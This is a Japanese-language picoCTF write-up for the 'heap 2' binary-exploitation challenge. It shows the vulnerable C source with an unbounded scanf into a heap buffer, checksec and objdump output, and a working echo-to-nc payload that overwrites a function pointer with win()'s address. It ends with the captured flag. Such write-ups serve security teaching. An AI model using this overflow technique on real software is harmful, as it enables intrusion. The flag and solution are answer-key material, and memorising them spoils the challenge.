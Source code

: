 # heap 2:Binary Exploitation:200pts
Can you handle function pointers?  
Download the binary [here](chall).  
Download the source [here](chall.c).  
Connect with the challenge instance here:  
`nc mimas.picoctf.net 53382`  

Hints  
1  
Are you doing the right endianness?  

# Solution
バイナリ、ソースと接続先が渡される。  
ソースを見ると以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
[heap 0](../heap_0)と[heap 1](../heap_1)とほぼ変わらないようだが、Print Flagで`check_win`が呼ばれており、`x`を呼び出している。  
`x`は文字列`bico`で初期化されており、オーバーフローで`win`を設定する必要がありそうだ。  
```bash
$ checksec --file=./chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   51 Symbols        No    0               2               ./chall
$ objdump -D ./chall | grep '<win>'
objdump: Warning: Unrecognized form: 0x22
objdump: Warning: Unrecognized form: 0x22
objdump: Warning: Unrecognized form: 0x23
00000000004011a0 <win>:
```
PIEが無効で、`win`のアドレスが`0x4011a0`とわかるのでそこに飛ばせばよい。  
以下のようにオーバーフローを調整して`win`に飛ばす。  
```bash
$ echo -e '2\nSATOKISATOKISATOKISATOKISATOKISA\xa0\x11\x40\x00\n4' | nc mimas.picoctf.net 53382

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: Data for buffer:
1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: picoCTF{and_down_the_road_we_go_ba77314d}
```
Write to bufferで`x`を書き換え、Print Flagでflagが表示された。  

## picoCTF{and_down_the_road_we_go_ba77314d}